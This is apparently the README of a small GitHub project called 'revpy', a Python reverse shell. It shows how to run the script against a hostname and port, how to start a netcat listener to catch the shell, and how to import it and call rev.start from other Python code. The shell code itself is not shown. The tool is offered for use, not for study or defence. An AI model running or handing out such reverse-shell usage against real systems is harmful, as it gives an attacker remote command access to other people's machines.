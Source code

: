 # revpy
Primative reverse shell written in Python.

# usage
python rev.py <hostname> <port>

# how to run a server
run "netcat -lp <port>"

# how to import and use in your own python code
import <location of your rev.py file>
  
...

rev.start(hostname, port)
